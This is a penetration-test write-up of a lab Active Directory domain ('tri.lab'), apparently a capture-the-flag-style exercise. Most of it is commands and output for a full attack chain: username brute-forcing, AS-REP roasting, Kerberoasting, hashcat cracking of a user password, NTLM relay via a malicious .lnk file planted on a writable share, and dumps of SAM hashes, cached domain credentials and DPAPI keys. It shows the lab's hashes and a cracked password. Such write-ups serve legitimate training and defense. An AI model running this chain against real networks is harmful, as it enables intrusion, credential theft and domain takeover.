

# Triathlon


## Objective / Scope

An elite triathlon team from the United States has requested a penetration test on their internal network. They have granted access to their network via VPN, but no other information has been provided. Successful testers should prove full compromise by providing the NTLM hash for the "krbtgt" account.

### Enumeration

The attacker will start by organizing `hosts.txt`
```
10.0.27.33
10.0.16.22
10.0.18.230
```

Then utilizing the list the attack will scan them with nmap
```zsh
nmap -sV -T4 -p- -iL hosts.txt > scans.tcp

👤 rosskeddy 🏠 /work took 5m28s 
✦ ➜ cat scans.tcp   
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-08 19:06 -0500
Nmap scan report for BIKE-SRV (10.0.27.33)
Host is up (0.027s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for RUN-SRV (10.0.16.22)
Host is up (0.027s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-09 00:11:25Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: tri.lab, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tri.lab, Site: Default-First-Site-Name)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tri.lab, Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tri.lab, Site: Default-First-Site-Name)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
54410/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
54412/tcp open  msrpc         Microsoft Windows RPC
54422/tcp open  msrpc         Microsoft Windows RPC
54438/tcp open  msrpc         Microsoft Windows RPC
59583/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for SWIM-SRV (10.0.18.230)
Host is up (0.027s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
49669/tcp open  msrpc         Microsoft Windows RPC
61386/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Anonymous auth was enabled but not fruitful, guest authentication was disabled.
```zsh
➜ nxc smb hosts.txt -u '' -p ''
SMB         10.0.16.22      445    RUN-SRV          [*] Windows Server 2022 Build 20348 x64 (name:RUN-SRV) (domain:tri.lab) (signing:True) (SMBv1:False) 
SMB         10.0.27.33      445    BIKE-SRV         [*] Windows Server 2022 Build 20348 x64 (name:BIKE-SRV) (domain:tri.lab) (signing:False) (SMBv1:False) 
SMB         10.0.18.230     445    SWIM-SRV         [*] Windows Server 2022 Build 20348 x64 (name:SWIM-SRV) (domain:tri.lab) (signing:False) (SMBv1:False) 
SMB         10.0.16.22      445    RUN-SRV          [+] tri.lab\: 
SMB         10.0.27.33      445    BIKE-SRV         [-] Broken Pipe Error while attempting to login
SMB         10.0.18.230     445    SWIM-SRV         [-] tri.lab\: STATUS_ACCESS_DENIED 
Running nxc against 3 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00

👤 rosskeddy 🏠 /work took 25s 
➜ nxc smb hosts.txt -u 'ross' -p ''
SMB         10.0.18.230     445    SWIM-SRV         [*] Windows Server 2022 Build 20348 x64 (name:SWIM-SRV) (domain:tri.lab) (signing:False) (SMBv1:False) 
SMB         10.0.27.33      445    BIKE-SRV         [*] Windows Server 2022 Build 20348 x64 (name:BIKE-SRV) (domain:tri.lab) (signing:False) (SMBv1:False) 
SMB         10.0.16.22      445    RUN-SRV          [*] Windows Server 2022 Build 20348 x64 (name:RUN-SRV) (domain:tri.lab) (signing:True) (SMBv1:False) 
SMB         10.0.18.230     445    SWIM-SRV         [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         10.0.27.33      445    BIKE-SRV         [-] Broken Pipe Error while attempting to login
SMB         10.0.16.22      445    RUN-SRV          [-] tri.lab\ross: STATUS_LOGON_FAILURE 
Running nxc against 3 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

Through OSINT and having ChatGPT create a username list of the 2025 U.S. Elite Triathlon Team, the attacker utilizes [kerbrute](https://github.com/ropnop/kerbrute) and successfully gathers three valid usernames.
```zsh
➜ ~/tools/kerbrute userenum -d tri.lab potentials.txt --dc 10.0.16.22

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 01/08/26 - Ronnie Flathers @ropnop

2026/01/08 19:48:22 >  Using KDC(s):
2026/01/08 19:48:22 >   10.0.16.22:88

2026/01/08 19:48:22 >  [+] VALID USERNAME:       m.pearson@tri.lab
2026/01/08 19:48:22 >  [+] VALID USERNAME:       j.reed@tri.lab
2026/01/08 19:48:22 >  [+] VALID USERNAME:       t.spivey@tri.lab
2026/01/08 19:48:22 >  Done! Tested 72 usernames (3 valid) in 0.251 seconds
```

`users.txt`
```
m.pearson
j.reed
t.spivey
```

On BIKE-SRV the attacker gets a JavaScript alert upon loading the page.



The attacker performs an ASREPRoast attack and it yields t.spivey's hash.
```zsh
➜ GetNPUsers.py 'tri.lab/' -usersfile users.txt -dc-ip 10.0.16.22                                              
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User m.pearson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.reed doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t.spivey@TRI.LAB:74353d39b62a2dcad65325164964d7e8$16787deeb9cf9b92db165e32da4f09ddaef3fdde5b94e8b0eb31b0c7116c1b3abfb245b708eaffdfaee967fa424dd941a14a8ec1ee12a78cf235a86c9c783adf9f6ed4612ccaa3d4a782e2b375719b18850af0eda8aabdb3d5e2b289f6cd086692167dc555e8a1e18f8a413bd0c8e0f72e9963d73c15c1b56844b94b841704e56c33299a94b8a993c249c1d0992d939492e493cf7ed354d8fadbc1fa83fc2c92ccb50b182fa1a5323b9a82363fc24eeb8940a1eb08b343808327fb605128896e6d2e56e8b208ac7d5ad6735e5d59ef169736223e647f5d850f1bf510e5b15fffb5dd
```

This hash was not able to cracked, however, this information is still extremely valuable.
### Privilege Escalation
In September 2022, [Charlie Cark](https://twitter.com/exploitph) explained how Service Tickets could be obtained through `AS-REQ` requests (which are usually used for TGT requests), instead of the usual `TGS-REQ`. He demonstrated (and [implemented](https://github.com/GhostPack/Rubeus/pull/139)) how to abuse this in a Kerberoasting scenario.

If an attacker knows of an account for which pre-authentication isn't required (i.e. an [ASREProastable](asreproast.md) account), as well as one (or multiple) service accounts to target, a Kerberoast attack can be attempted without having to control any Active Directory account (since pre-authentication won't be required).

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) can perform all the necessary steps to request a ST for a service given its SPN (or name) and valid domain credentials.

```zsh
GetUserSPNs.py -no-preauth 't.spivey' -dc-ip 10.0.16.22 "tri.lab"/ -usersfile users.txt -outputfile kerberoastables.txt 
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[-] Principal: m.pearson - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: t.spivey - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)

➜ cat kerberoastables.txt 
$krb5tgs$23$*j.reed$TRI.LAB$j.reed*$5c6e8659066eb1ed491164867f3443fc$ebd197d7de11754994049bcdbea9bb42280c8c65be8a04343171cca39e37bb518682cc5bb91218cb225daa7508d2f8deea3b73ef3767f396003bc8dcdf0a752a14c78aba65c38098fb14b9dd2141c9c2d1a0e3a8693bd31029d264aae355202ac4ae3ccedff92e6dc41aeb3f3ba577adb17179894036233e3bc25f14331bf3d6d081aa974d1b46aac0b2e6f1471f23cd64a7a31c142dd48ecd02ce780feb7ede39f217897c81e8c06076284565aab27453426e1761299f58641d4716ee9f169c0008fb096e7a3c212a06527c70b5fbb5826ab149c18255e7ad1f1a5664ea0e3576c9db2506c5d4cf842b9fb2b8c951ba36101964f240efb248798280b5905dbb0522fde9c795dde6c303b8d41e6e55483f42edd654e468d05435b505375fdcd0d5ba83aa9123e3c867f63d4ceb5c6dd0191d7b30d3d215289c183d854fa25c8a48653fe4fe526b95f4e1e3d9f3d78937eb98f492d422678512794e67fd7f48817f92319e13090216fefc2c33a251184c8b1dda624213cd36ac67d60dcbe0d44425ca74ec7325ba8d4c3e9a09bbd0e37876abddf75d87c30a7eed52c1f7496ed54e5ab13c1270f43a66f2a1eea1c5ea4792c42a7ba57847f1c2cff2f39bf4a00a2438a13e3e88c81015a4dcc4e5a40b9eb6f8e3981ec3b105a131fffa9b8feb47a7ea4b51b184f58a5d7c785cbcfa00841f71a8d651b9eb93f2919be4553c2f7b3bd067db08d4406769a17c4dee254a7e84e2e9d4c51e85aede32da5a28c0c8f1e5c4cc6f16d3d60799959971ab4039dd06a261a39bac08406992e31d1b37f48b070a9bcb2996a45bd71f3eafc7736829cbbf55059c051dd3c41b8873ffba8555c542f29be7ef172acf8028d7ef1549fa7ff107d80fb03892098be6cd321701c532e61abf033e68c3d2902de0d9c4ea84fb20091e0b8d257ef74d5f35a707717ac8fa22cf195fb9b15555537f80870c97275282884d2098fc14ba74db1e79010d9ab0d8c9eeca62e30fff95dbc97b5bc48d02bbe751c9da082442a423f5e4d810165d32df53978bd3164a4a3c786e271408f074d857763c468fd7d418f4080ba7a20c69bced59c4f321513de0c0578bb1efa53c2cf1bd78c28ede12e5cbcb0a408cf1bc04c888222e5e66242651fddb4ca28520f3e98ebd3014759ea05b45e82b4d0c97252b0ab699723d69f1cb6d0113e3a7fb176ab08e6d87eceed3d23caa56ed02bfb2b8ed4f952428a131e8e1e5b790ad6c74be313a06a4c982cb1e4315f57ccdd6b51ae3834df68b91a350f038980562a5db44913920b2b9f2d564b8be439cf6191372028841d496f160f4feb899f77bb3b79ae901a09ccdd4b31d3b56ad50ff1339ca3efb5914aee269997f62d7d44ed434eb1c0e28
```

With that hash obtained, the attacker attempts to crack it with hashcat.
```zsh
hashcat -m 13100 kerberoastables.txt kerberoastables.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best66.rule

$krb5tgs$23$*j.reed$TRI.LAB$j.reed*$5c6e8659066eb1ed491164867f3443fc$ebd197d7de11754994049bcdbea9bb42280c8c65be8a04343171cca39e37bb518682cc5bb91218cb225daa7508d2f8deea3b73ef3767f396003bc8dcdf0a752a14c78aba65c38098fb14b9dd2141c9c2d1a0e3a8693bd31029d264aae355202ac4ae3ccedff92e6dc41aeb3f3ba577adb17179894036233e3bc25f14331bf3d6d081aa974d1b46aac0b2e6f1471f23cd64a7a31c142dd48ecd02ce780feb7ede39f217897c81e8c06076284565aab27453426e1761299f58641d4716ee9f169c0008fb096e7a3c212a06527c70b5fbb5826ab149c18255e7ad1f1a5664ea0e3576c9db2506c5d4cf842b9fb2b8c951ba36101964f240efb248798280b5905dbb0522fde9c795dde6c303b8d41e6e55483f42edd654e468d05435b505375fdcd0d5ba83aa9123e3c867f63d4ceb5c6dd0191d7b30d3d215289c183d854fa25c8a48653fe4fe526b95f4e1e3d9f3d78937eb98f492d422678512794e67fd7f48817f92319e13090216fefc2c33a251184c8b1dda624213cd36ac67d60dcbe0d44425ca74ec7325ba8d4c3e9a09bbd0e37876abddf75d87c30a7eed52c1f7496ed54e5ab13c1270f43a66f2a1eea1c5ea4792c42a7ba57847f1c2cff2f39bf4a00a2438a13e3e88c81015a4dcc4e5a40b9eb6f8e3981ec3b105a131fffa9b8feb47a7ea4b51b184f58a5d7c785cbcfa00841f71a8d651b9eb93f2919be4553c2f7b3bd067db08d4406769a17c4dee254a7e84e2e9d4c51e85aede32da5a28c0c8f1e5c4cc6f16d3d60799959971ab4039dd06a261a39bac08406992e31d1b37f48b070a9bcb2996a45bd71f3eafc7736829cbbf55059c051dd3c41b8873ffba8555c542f29be7ef172acf8028d7ef1549fa7ff107d80fb03892098be6cd321701c532e61abf033e68c3d2902de0d9c4ea84fb20091e0b8d257ef74d5f35a707717ac8fa22cf195fb9b15555537f80870c97275282884d2098fc14ba74db1e79010d9ab0d8c9eeca62e30fff95dbc97b5bc48d02bbe751c9da082442a423f5e4d810165d32df53978bd3164a4a3c786e271408f074d857763c468fd7d418f4080ba7a20c69bced59c4f321513de0c0578bb1efa53c2cf1bd78c28ede12e5cbcb0a408cf1bc04c888222e5e66242651fddb4ca28520f3e98ebd3014759ea05b45e82b4d0c97252b0ab699723d69f1cb6d0113e3a7fb176ab08e6d87eceed3d23caa56ed02bfb2b8ed4f952428a131e8e1e5b790ad6c74be313a06a4c982cb1e4315f57ccdd6b51ae3834df68b91a350f038980562a5db44913920b2b9f2d564b8be439cf6191372028841d496f160f4feb899f77bb3b79ae901a09ccdd4b31d3b56ad50ff1339ca3efb5914aee269997f62d7d44ed434eb1c0e28:Utah123
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*j.reed$TRI.LAB$j.reed*$5c6e8659066eb1e...1c0e28
Time.Started.....: Fri Jan  9 14:26:54 2026 (1 min, 0 secs)
Time.Estimated...: Fri Jan  9 14:27:54 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best66.rule)
Guess.Queue......: 2/2 (100.00%)
Speed.#01........:  3165.6 kH/s (6.54ms) @ Accel:167 Loops:64 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 195573032/946729410 (20.66%)
Rejected.........: 0/195573032 (0.00%)
Restore.Point....: 2962580/14344385 (20.65%)
Restore.Sub.#01..: Salt:0 Amplifier:0-64 Iteration:0-64
Candidate.Engine.: Device Generator
Candidates.#01...: utbball20 -> aith
Hardware.Mon.#01.: Util: 95%

Started: Fri Jan  9 14:26:53 2026
Stopped: Fri Jan  9 14:27:56 2026

➜ nxc smb hosts.txt -u 'j.reed' -p 'Utah123'
SMB         10.0.16.22      445    RUN-SRV          [*] Windows Server 2022 Build 20348 x64 (name:RUN-SRV) (domain:tri.lab) (signing:True) (SMBv1:False) 
SMB         10.0.27.33      445    BIKE-SRV         [*] Windows Server 2022 Build 20348 x64 (name:BIKE-SRV) (domain:tri.lab) (signing:False) (SMBv1:False) 
SMB         10.0.18.230     445    SWIM-SRV         [*] Windows Server 2022 Build 20348 x64 (name:SWIM-SRV) (domain:tri.lab) (signing:False) (SMBv1:False) 
SMB         10.0.16.22      445    RUN-SRV          [+] tri.lab\j.reed:Utah123 
SMB         10.0.27.33      445    BIKE-SRV         [+] tri.lab\j.reed:Utah123 
SMB         10.0.18.230     445    SWIM-SRV         [+] tri.lab\j.reed:Utah123 
Running nxc against 3 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

The attacker now has a foothold on the Active Directory with `j.reed:Utah123`.

### Credentialed Enumeration
With NetExec the attacker can compile a further list of targets.
```zsh
➜ nxc smb tri.lab -u 'j.reed' -p Utah123 --users           
SMB         10.0.16.22      445    RUN-SRV          [*] Windows Server 2022 Build 20348 x64 (name:RUN-SRV) (domain:tri.lab) (signing:True) (SMBv1:False)
SMB         10.0.16.22      445    RUN-SRV          [+] tri.lab\j.reed:Utah123 
SMB         10.0.16.22      445    RUN-SRV          -Username-                    -Last PW Set-       -BadPW- -Description- 
SMB         10.0.16.22      445    RUN-SRV          Administrator                 2025-10-03 21:35:16 2       Built-in account for administering the computer/domain                                                                                    
SMB         10.0.16.22      445    RUN-SRV          Guest                         <never>             0       Built-in account for guest access to the computer/domain                                                                                  
SMB         10.0.16.22      445    RUN-SRV          krbtgt                        2025-10-03 21:54:59 0       Key Distribution Center Service Account                                                                                                   
SMB         10.0.16.22      445    RUN-SRV          t.spivey                      2025-10-03 21:59:21 2        
SMB         10.0.16.22      445    RUN-SRV          j.reed                        2025-10-03 22:00:09 0        
SMB         10.0.16.22      445    RUN-SRV          e.ackerlund                   2025-10-03 22:01:04 0        
SMB         10.0.16.22      445    RUN-SRV          m.pearson                     2025-10-04 00:59:53 3        
SMB         10.0.16.22      445    RUN-SRV          j.reed_adm                    2025-10-06 17:03:55 2        
SMB         10.0.16.22      445    RUN-SRV          [*] Enumerated 8 local users: TRI
```

This yields the following list.
`users.txt`
```text
Administrator
krbtgt
t.spivey
j.reed
e.ackerlund
m.pearson
j.reed_adm
```

Enumerating shares finds `TransitionZone$` on `SWIM-SRV`.
```zsh
➜ nxc smb hosts.txt -u 'j.reed' -p Utah123 --shares 
SMB         10.0.18.230     445    SWIM-SRV         [*] Windows Server 2022 Build 20348 x64 (name:SWIM-SRV) (domain:tri.lab) (signing:False) (SMBv1:False)
SMB         10.0.16.22      445    RUN-SRV          [*] Windows Server 2022 Build 20348 x64 (name:RUN-SRV) (domain:tri.lab) (signing:True) (SMBv1:False)
SMB         10.0.27.33      445    BIKE-SRV         [*] Windows Server 2022 Build 20348 x64 (name:BIKE-SRV) (domain:tri.lab) (signing:False) (SMBv1:False)
SMB         10.0.18.230     445    SWIM-SRV         [+] tri.lab\j.reed:Utah123 
SMB         10.0.16.22      445    RUN-SRV          [+] tri.lab\j.reed:Utah123 
SMB         10.0.27.33      445    BIKE-SRV         [+] tri.lab\j.reed:Utah123 
SMB         10.0.27.33      445    BIKE-SRV         [*] Enumerated shares
SMB         10.0.27.33      445    BIKE-SRV         Share           Permissions     Remark
SMB         10.0.27.33      445    BIKE-SRV         -----           -----------     ------
SMB         10.0.27.33      445    BIKE-SRV         ADMIN$                          Remote Admin
SMB         10.0.27.33      445    BIKE-SRV         C$                              Default share
SMB         10.0.27.33      445    BIKE-SRV         IPC$            READ            Remote IPC
SMB         10.0.18.230     445    SWIM-SRV         [*] Enumerated shares
SMB         10.0.18.230     445    SWIM-SRV         Share           Permissions     Remark
SMB         10.0.18.230     445    SWIM-SRV         -----           -----------     ------
SMB         10.0.18.230     445    SWIM-SRV         ADMIN$                          Remote Admin
SMB         10.0.18.230     445    SWIM-SRV         C$                              Default share
SMB         10.0.18.230     445    SWIM-SRV         IPC$            READ            Remote IPC
SMB         10.0.18.230     445    SWIM-SRV         TransitionZone$ READ,WRITE      
SMB         10.0.16.22      445    RUN-SRV          [*] Enumerated shares
SMB         10.0.16.22      445    RUN-SRV          Share           Permissions     Remark
SMB         10.0.16.22      445    RUN-SRV          -----           -----------     ------
SMB         10.0.16.22      445    RUN-SRV          ADMIN$                          Remote Admin
SMB         10.0.16.22      445    RUN-SRV          C$                              Default share
SMB         10.0.16.22      445    RUN-SRV          IPC$            READ            Remote IPC
SMB         10.0.16.22      445    RUN-SRV          NETLOGON        READ            Logon server share 
SMB         10.0.16.22      445    RUN-SRV          SYSVOL          READ            Logon server share 
Running nxc against 3 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

## BIKE-SRV
### Lateral Movement
The attacker will utilize ntlmrelayx to target `BIKE-SRV`
```zsh
➜ ntlmrelayx.py -t smb://BIKE-SRV.tri.lab -smb2support -socks
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client WINRMS loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client DCSYNC loaded..
[*] Running in relay mode to single host
[*] SOCKS proxy started. Listening on 127.0.0.1:1080
[*] IMAPS Socks Plugin loaded..
[*] IMAP Socks Plugin loaded..
[*] LDAPS Socks Plugin loaded..
[*] LDAP Socks Plugin loaded..
[*] HTTP Socks Plugin loaded..
[*] MSSQL Socks Plugin loaded..
[*] SMTP Socks Plugin loaded..
[*] HTTPS Socks Plugin loaded..
[*] SMB Socks Plugin loaded..
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
 * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
 * Debug mode: off
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Setting up WinRM (HTTP) Server on port 5985
[*] Setting up WinRMS (HTTPS) Server on port 5986
[*] Setting up RPC Server on port 135
[*] Multirelay disabled

[*] Servers started, waiting for connections
Type help for list of commands
ntlmrelayx> 
```

and then launch a `.lnk` attack with NetExec's slink module.
```zsh
➜ nxc smb SWIM-SRV -u 'j.reed' -p Utah123 -M slinky -o SERVER=10.200.28.207 NAME=URGENT
[*] Ignore OPSEC in configuration is set and OPSEC unsafe module loaded
SMB         10.0.18.230     445    SWIM-SRV         [*] Windows Server 2022 Build 20348 x64 (name:SWIM-SRV) (domain:tri.lab) (signing:False) (SMBv1:False)
SMB         10.0.18.230     445    SWIM-SRV         [+] tri.lab\j.reed:Utah123 
SMB         10.0.18.230     445    SWIM-SRV         [*] Enumerated shares
SMB         10.0.18.230     445    SWIM-SRV         Share           Permissions     Remark
SMB         10.0.18.230     445    SWIM-SRV         -----           -----------     ------
SMB         10.0.18.230     445    SWIM-SRV         ADMIN$                          Remote Admin
SMB         10.0.18.230     445    SWIM-SRV         C$                              Default share
SMB         10.0.18.230     445    SWIM-SRV         IPC$            READ            Remote IPC
SMB         10.0.18.230     445    SWIM-SRV         TransitionZone$ READ,WRITE      
SLINKY      10.0.18.230     445    SWIM-SRV         [+] Found writable share: TransitionZone$
SLINKY      10.0.18.230     445    SWIM-SRV         [+] Created LNK file on the TransitionZone$ share
```

With the attack launched, ntlmrelayx will receive a connection and relay it, utilizing the SOCKS tunnel as persistent authentication
```zsh
ntlmrelayx> [*] (SMB): Received connection from 10.0.18.230, attacking target smb://BIKE-SRV.tri.lab
[*] (SMB): Authenticating connection from TRI/E.ACKERLUND@10.0.18.230 against smb://BIKE-SRV.tri.lab SUCCEED [13]
[*] Relay connection for TRI/E.ACKERLUND at bike-srv.tri.lab(445) already exists. Discarding
[*] (SMB): Received connection from 10.0.18.230, attacking target smb://BIKE-SRV.tri.lab

ntlmrelayx> stopservers
[*] Shutting down WinRM (HTTP) Server
[*] Shutting down RPC Server
[*] Shutting down WinRMS (HTTPS) Server
[*] Shutting down WCF Server
[*] Shutting down RAW Server
[*] Shutting down SMB Server
[*] Shutting down HTTP Server
[*] Relay servers stopped

ntlmrelayx> socks
Protocol  Target            Username         AdminStatus  Port  ID 
--------  ----------------  ---------------  -----------  ----  ---
SMB       bike-srv.tri.lab  TRI/E.ACKERLUND  TRUE         445   1  
```

The attacker will need to specify domain and username _exactly_ how `ntlmrelayx` shows. If `-d TRI`is not specified as the domain, nxc will default to `TRI.local` and the SOCKS session will not be utilized properly. The password the attacker provides is arbitrary since the SOCKS proxy is going to use the session that was gained from relaying auth, and as such, is not real.
```zsh
➜ proxychains4 netexec smb bike-srv.tri.lab -u 'E.ACKERLUND' -p FAKEPASS -d TRI --sam
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  bike-srv.tri.lab:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  bike-srv.tri.lab:135 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  bike-srv.tri.lab:445  ...  OK
SMB         224.0.0.1       445    BIKE-SRV         [*] Windows Server 2022 Build 20348 (name:BIKE-SRV) (domain:tri.lab) (signing:False) (SMBv1:False)                                                                                                  
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  bike-srv.tri.lab:445  ...  OK
SMB         224.0.0.1       445    BIKE-SRV         [+] TRI\E.ACKERLUND:FAKEPASS (Guest)(Pwn3d!)
SMB         224.0.0.1       445    BIKE-SRV         [*] Dumping SAM hashes
SMB         224.0.0.1       445    BIKE-SRV         Administrator:500:aad3b435b51404eeaad3b435b51404ee:9a6434f863c1835d5f1baf39a544ad57:::
SMB         224.0.0.1       445    BIKE-SRV         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         224.0.0.1       445    BIKE-SRV         DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                            
SMB         224.0.0.1       445    BIKE-SRV         WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:d7da45674bae3a0476c0f64b67121f7d:::                                                                                                         
SMB         224.0.0.1       445    BIKE-SRV         [+] Added 4 SAM hashes to the database

---

➜ proxychains4 netexec smb bike-srv.tri.lab -u 'E.ACKERLUND' -p FAKEPASS -d TRI --lsa
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  bike-srv.tri.lab:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  bike-srv.tri.lab:135 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  bike-srv.tri.lab:445  ...  OK
SMB         224.0.0.1       445    BIKE-SRV         [*] Windows Server 2022 Build 20348 (name:BIKE-SRV) (domain:tri.lab) (signing:False) (SMBv1:False)                                                                                                  
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  bike-srv.tri.lab:445  ...  OK
SMB         224.0.0.1       445    BIKE-SRV         [+] TRI\E.ACKERLUND:FAKEPASS (Guest)(Pwn3d!)
SMB         224.0.0.1       445    BIKE-SRV         [+] Dumping LSA secrets
SMB         224.0.0.1       445    BIKE-SRV         TRI.LAB/Administrator:$DCC2$10240#Administrator#9ba54f4ea00cab3cd7afc83b1a2ee62d: (2025-10-03 22:30:08)                                                                                             
SMB         224.0.0.1       445    BIKE-SRV         TRI.LAB/m.pearson:$DCC2$10240#m.pearson#05b458fcb2ebb0869a4979097a6bedaa: (2025-10-06 05:25:20)                                                                                                     
SMB         224.0.0.1       445    BIKE-SRV         TRI\BIKE-SRV$:aes256-cts-hmac-sha1-96:5c8bc79e715a13c3d74f79a95cffc7c379791c54faedb63f270b9eb2bfb98a67                                                                                              
SMB         224.0.0.1       445    BIKE-SRV         TRI\BIKE-SRV$:aes128-cts-hmac-sha1-96:23afadc7be00a41ebb01778683642271
SMB         224.0.0.1       445    BIKE-SRV         TRI\BIKE-SRV$:des-cbc-md5:979115a858bf400e
SMB         224.0.0.1       445    BIKE-SRV         TRI\BIKE-SRV$:plain_password_hex:7a3379197d5cd29f35724879f8a92b395ec7b32bd4265dd02e5825caaca24774fc92513bbc3204061aa44abf65666c95e5386432721ca036c8e24be53bc4e01012e7e081bdbe3261688ccdc3bac6ab7dfad17694ab18cb83c0954a3e46bc9662592bfe0b42ea86d5c4a5c1d533f51093fa139e09f2dbd7ab3cc69e3ef7ea5e7852c3a7805672204d08c963ad8e9092bf3885d842b4e03df08694b8b68cd955d222442cd07278856fe84894a812ddcb38888e2604d4136cea6814b80d23a362aed49e7986deafee8caa9bd6d6f33ec6f5f7468b6c285883ab4242c598b6586ff22ff000c31f0532a7ddc381baaa605a08                                                       
SMB         224.0.0.1       445    BIKE-SRV         TRI\BIKE-SRV$:aad3b435b51404eeaad3b435b51404ee:197117ec08ec5b9f0b1f07362521287f:::                                                                                                                  
SMB         224.0.0.1       445    BIKE-SRV         dpapi_machinekey:0xa2d39c0a2a834f5ffa23e290b622fa3a8a83c285
dpapi_userkey:0x7cd091235ffccf5405522a0079471092772d3b38
